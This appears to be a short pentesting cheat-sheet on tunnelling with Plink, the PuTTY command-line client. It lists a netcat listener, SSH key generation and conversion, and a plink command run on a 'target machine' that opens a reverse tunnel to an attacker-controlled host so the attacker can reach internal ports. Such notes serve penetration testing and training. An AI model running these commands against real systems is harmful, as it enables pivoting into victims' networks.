 ```yaml
---
title: Port Forwarding with Plink
description: Plink is a Windows command line version of the PuTTY SSH client.
tags:
    - Network
refs:
date: 2023-03-19
draft: false
---
```


## Reverse Connection

### 1. Open Lisnter in Your Local Machine

```sh
nc -lvnp 4444
```

### 2. Run Reverse Connection in Target Machine

First of all, generate SSH keys. Two keys (public and private) will be generated.

```sh
ssh-keygen
```

Convert the private key for Windows.

```sh
puttygen private_key -o private_key.ppk
```

Run reverse connection using plink.

```powershell
cmd.exe /c echo y | .\plink.exe -R <attack-port>:<victim-ip>:<victim-port> attacker@<attack-ip> -i private_key.ppk -N
```
